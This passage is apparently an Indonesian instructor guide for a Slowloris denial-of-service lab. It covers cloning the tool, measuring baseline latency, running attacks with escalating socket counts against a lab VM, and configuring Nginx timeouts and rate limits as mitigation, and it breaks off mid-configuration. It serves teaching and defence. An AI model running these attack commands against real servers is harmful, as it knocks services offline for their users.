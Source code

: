 * Bimbing peserta untuk mengakses `http://<IP_VICTIM>` secara manual.

### C. Setup Attacker (10 menit)

```bash
# pada Attacker
sudo apt update
sudo apt install -y git python3
git clone https://github.com/gkbrk/slowloris
cd slowloris
ls -la
```

* Perlihatkan isi skrip Slowloris dan opsi penggunaannya.

### D. Pengukuran Baseline Response Time (10 menit)

Contoh: gunakan `curl` untuk mengukur response time:

```bash
# optional: buat file curl-format.txt atau gunakan inline
curl -o /dev/null -s -w "time_total: %{time_total}s\n" "http://<IP_VICTIM>/"
```

Instruksikan peserta menyimpan hasil baseline ke laporan.

### E. Menjalankan Simulasi (Serangan Bertahap) (30–40 menit)

**Penting**: ingatkan etika dan batasi target ke VM lab saja.

* Mulai dengan parameter kecil, amati, lalu tingkatkan:

```bash
# contoh awal (sesuaikan)
python3 slowloris.py <IP_VICTIM> 500
# lalu tingkatkan
python3 slowloris.py <IP_VICTIM> 2000
python3 slowloris.py <IP_VICTIM> 10000
```

* Instruksikan peserta memonitor Victim selama serangan:

  * `ss -antp | grep nginx` — periksa ESTABLISHED sockets.
  * `top` / `htop` — CPU & memory.
  * `tail -f /var/log/nginx/error.log` — error terkait koneksi.
  * Akses `http://<IP_VICTIM>` dari browser untuk menguji availability.

**Expected instructor actions**: demonstrasikan peningkatan dampak saat sockets bertambah; diskusikan trade-offs (kenapa server kehabisan slot).

### F. Mitigasi (45 menit)

1. Tunjukkan file contoh `nginx-mitigation-example.conf`.
2. Pandu peserta untuk mengedit konfigurasi Nginx:

```bash
sudo nano /etc/nginx/nginx.conf
# tambahkan di dalam blok http { ... }:
client_header_timeout 10s;
client_body_timeout 10s;
keepalive_timeout 10s;

limit_conn_zone $binary_remote_addr zone=addr:10m;
limit_conn addr 10;

limit_req_zone $binary_remote_addr zone=req_per_ip:10m rate=10r/s;
```
